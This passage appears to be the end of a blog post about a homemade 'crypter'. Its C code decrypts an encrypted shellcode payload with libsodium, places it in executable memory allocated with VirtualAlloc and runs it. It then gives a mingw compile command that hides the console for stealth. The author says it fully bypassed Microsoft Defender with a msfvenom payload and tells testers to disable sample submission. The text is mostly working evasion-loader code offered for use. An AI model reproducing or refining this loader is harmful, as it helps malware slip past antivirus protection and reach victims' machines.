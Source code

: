 ```c
    unsigned char decrypted[encrypted_data_len - crypto_secretbox_MACBYTES];
    if (crypto_secretbox_open_easy(decrypted, encrypted_data + crypto_secretbox_NONCEBYTES, 
                                    encrypted_data_len - crypto_secretbox_NONCEBYTES, nonce, key_bytes) != 0) {
        return 1;
    }

    void *exec_mem = VirtualAlloc(NULL, sizeof(decrypted), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (exec_mem == NULL) {
        return 1;
    }

    memcpy(exec_mem, decrypted, sizeof(decrypted));
    void (*code)() = (void(*)())exec_mem;
    code();

    VirtualFree(exec_mem, 0, MEM_RELEASE); 
    return 0;
}
```

### Compiling

To compile this I used mingw64 and installed the sodium library. I used the following command:

```bash
x86_64-w64-mingw32-gcc shell.c -o shell.exe -lsodium -static -mwindows
```

- `-static` was to embed the required code from sodium in the executable instead of requiring DLLs.
- `-mwindows` is just to hide the console window (because stealth).

## Conclusion

And that's it! Now we can make our code a little bit less detectable. I actually managed to bypass Defender completely using a msfvenom payload and my crypter. If you want to check out my code or contribute, go to my **[GitHub](https://github.com/affeltrucken/ITST24_programming/tree/main/python/main_project/cryptonite)**, just be sure to turn off sample submission if you want to test out the crypter ;)